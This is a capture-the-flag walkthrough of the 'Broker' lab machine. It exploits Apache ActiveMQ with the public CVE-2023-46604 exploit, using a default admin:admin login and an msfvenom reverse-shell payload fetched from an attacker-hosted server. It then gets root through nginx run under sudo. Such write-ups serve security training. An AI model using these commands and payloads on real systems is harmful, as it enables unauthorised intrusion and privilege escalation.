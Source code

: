 # **Broker** 

***
## **Difficulty = Easy**

![Broker](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/39c3a12f-d830-4f4e-9dcc-c80d05348148)

***


Running an nmap scan we have -:


```bash
# Nmap 7.94 scan initiated Thu Nov  9 23:49:15 2023 as: nmap -p22,80,1883,5672,8161,8888,42445,61613,61614,61616 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.11.243
Nmap scan report for 10.10.11.243
Host is up (0.53s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
8888/tcp  open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE    TIME               FILENAME
| -       06-Nov-2023 01:10  bin/
| -       06-Nov-2023 01:10  bin/X11/
| 963     17-Feb-2020 14:11  bin/NF
| 129576  27-Oct-2023 11:38  bin/VGAuthService
| 51632   07-Feb-2022 16:03  bin/%5B
| 35344   19-Oct-2022 14:52  bin/aa-enabled
| 35344   19-Oct-2022 14:52  bin/aa-exec
| 31248   19-Oct-2022 14:52  bin/aa-features-abi
| 14478   04-May-2023 11:14  bin/add-apt-repository
| 14712   21-Feb-2022 01:49  bin/addpart
|_
|_http-title: Index of /
42445/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title.
| http-methods: 
|   Supported Methods: GET HEAD TRACE OPTIONS
|_  Potentially risky methods: TRACE
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at
```



Navigating to port `80/HTTP` we have a login page


![](https://i.imgur.com/Lu2FcPA.png)


Using default credentials `admin:admin` gives us access


![](https://i.imgur.com/kcfolyK.png)


Enumerating the **ActiveMQ** manager i found this [exploit](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ), you can go ahead and clone the whole respository


```shell
$ git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
```


Then build the exploit since it is written in **Go**


```bash
$ go build
```



Create a `msfvenom` binary (`.elf`) for the reverse  shell 

```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf
```


![](https://i.imgur.com/9HjX2hf.png)


Now host you payload on a **python server**


```bash
$ python3 -m http.server 8001
```

Open up the `poc-linux.xml` with your favorite text editor and replace the URL with your attacker IP address


![](https://i.imgur.com/uJMiT17.png)



Now start up your listener with `netcat` on port `4444` and run the exploit


```bash
$ ./ActiveMQ-RCE -i 10.10.11.243 -u http://10.10.16.7:8001/poc-linux.xml
```


Hell yeah 😎, and we got reverse shell as user **activemq**


![](https://i.imgur.com/CtCfcJX.png)


Running `sudo -l` we have the permissions to run `/usr/sbin/nginx` as **root**



![](https://i.imgur.com/tqY4VFY.png)



We can go ahead and navigate to our `/tmp` directory then save this config into a file called `whatever.conf`, This will host the / directory on the nginx server listening on port `1337`, Since we are running nginx with sudo we might be able to read the `/root` directory


```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```


Now run `nginx` pointing to the config file

```bash
$ sudo /usr/sbin/nginx -c /tmp/whatever.conf 
```

Making a `curl` request to `127.0.0.1` on port `1337` we can see that we now have the root directory served, we can go ahead and grab our **root** flag

```bash
$ curl 127.0.0.1:1337/root/root.txt
```


![](https://i.imgur.com/e1IUIA9.png)


Bankai, Have fun 🤾‍♂️


![](https://i.pinimg.com/originals/ea/8b/13/ea8b137fbc46bea2f12cc9087e57053d.gif)



<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

